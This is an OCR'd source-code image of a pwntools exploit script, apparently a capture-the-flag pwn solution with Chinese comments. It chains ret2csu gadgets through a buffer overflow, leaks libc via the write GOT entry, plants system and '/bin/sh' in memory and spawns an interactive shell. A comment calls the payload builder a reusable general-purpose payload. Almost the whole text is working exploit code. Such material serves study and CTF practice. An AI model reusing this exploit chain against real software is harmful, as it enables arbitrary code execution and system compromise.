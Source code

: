 ```bash
    payload += p64(r13) + p64(r14) + p64(r15)
    #三个参数的寄存器
    payload += p64(second_csu)
    #gadgets2 的地址
    payload += 'a' * 56
    #pop 出的 padding
    payload += p64(last)
    #函数最后的返回地址
    return payload
#做熟练了可以直接用这个通用 Payload

write_got=elf.got['write']
leak('write_got',write_got)
main=elf.symbols['main']
leak('main',main)
read=elf.got['read']
leak('read',read)



"""
.text:00000000004012AA                 pop     rbx
.text:00000000004012AB                 pop     rbp
.text:00000000004012AC                 pop     r12
.text:00000000004012AE                 pop     r13
.text:00000000004012B0                 pop     r14
.text:00000000004012B2                 pop     r15
.text:00000000004012B4                 retn
"""
pl=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(1)+p64(write_got)+p64(0x8)+p64(0x404018)+p64(0x401290)+p64(1)*7+p64(main)
p.sendlineafter('Hello, World\n',pl)

write=uu64(r(6))
leak('write',write)

libcbase=write-libc.symbols['write']
leak('libcbase',libcbase)

"""
.text:0000000000401290                 mov     rdx, r14
.text:0000000000401293                 mov     rsi, r13
.text:0000000000401296                 mov     edi, r12d
.text:0000000000401299                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040129D                 add     rbx, 1
.text:00000000004012A1                 cmp     rbp, rbx
.text:00000000004012A4                 jnz     short loc_401290
"""

pl2=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(0)+p64(0x404060)+p64(0x20)+p64(read)+p64(0x401290)+p64(1)*7+p64(main)
p.sendline(pl2)
p.send(p64(libcbase+libc.symbols['system'])+b'/bin/sh\00')

pl3=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(0x404068)+p64(0)+p64(0)+p64(0x404060)+p64(0x401290)
p.sendlineafter('Hello, World\n',pl3)
p.interactive()
```
